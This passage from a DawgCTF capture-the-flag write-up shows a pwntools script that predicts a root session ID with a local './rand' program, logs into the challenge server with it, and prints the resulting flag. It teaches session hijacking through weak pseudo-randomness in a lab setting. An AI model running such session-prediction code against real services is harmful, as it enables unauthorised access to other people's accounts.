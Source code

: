 Then we can use this to connect.

```python
import os
from pwn import *

sh = remote("ctf.umbccd.io", 5600)

root_session = os.popen("./rand").read()
print(root_session)

print(sh.recvuntil("(L/S): ").decode())
sh.sendline("s") # Connect using session ID
print(sh.recvuntil("ID: ").decode())
print(root_session)
sh.sendline(root_session) # send session ID
sh.interactive()
```

![flag](../images/authenticate.png)

Flag: `DawgCTF{ps3ud0_r4nd0m_1s_n0t_tru3_r4nd0m}`
